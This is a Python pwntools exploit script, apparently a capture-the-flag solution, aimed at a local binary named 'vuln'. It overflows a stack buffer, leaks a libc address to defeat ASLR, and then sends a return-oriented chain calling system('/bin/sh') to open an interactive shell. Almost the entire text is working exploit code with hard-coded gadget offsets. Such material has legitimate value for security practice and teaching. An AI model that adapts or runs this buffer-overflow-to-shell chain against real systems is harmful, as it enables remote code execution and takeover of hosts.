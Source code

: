 ```python
from pwn import *
# from LibcSearcher import *
import itertools
import ctypes

context(os='linux', arch='amd64', log_level='debug')

is_debug = 0
IP = "127.0.0.1"
PORT = 9999

elf = context.binary = ELF('./vuln')
libc = elf.libc

def connect():
    return remote(IP, PORT) if not is_debug else process()

g = lambda x: gdb.attach(x)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x=None: p.recv() if x is None else p.recv(x)
rl = lambda: p.recvline()
ru = lambda x: p.recvuntil(x)
r_leak_libc_64 = lambda: u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
r_leak_libc_32 = lambda: u32(p.recvuntil(b'\xf7')[-4:])

p = connect()

payload = b"a" * 0x108 + b'\x89'
# .text:0000000000029D89 48 8B 44 24 08                mov     rax, [rsp+98h+var_90]
# .text:0000000000029D8E FF D0                         call    rax

# g(p)
s(payload)

ru(b"a" * 0x108)
libc_base = u64(r(6).ljust(8,b'\x00')) - (0x72c545629d89 - 0x72c545600000)
success(hex(libc_base))

pop_rdi_ret = libc_base + 0x000000000002a3e5
xor_rax_rax_ret = libc_base + 0x00000000000baaf9
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

payload = b"a" * 0x108 + p64(pop_rdi_ret) + p64(binsh) + p64(xor_rax_rax_ret) + p64(system)
s(payload)
# g(p)

p.interactive()

```
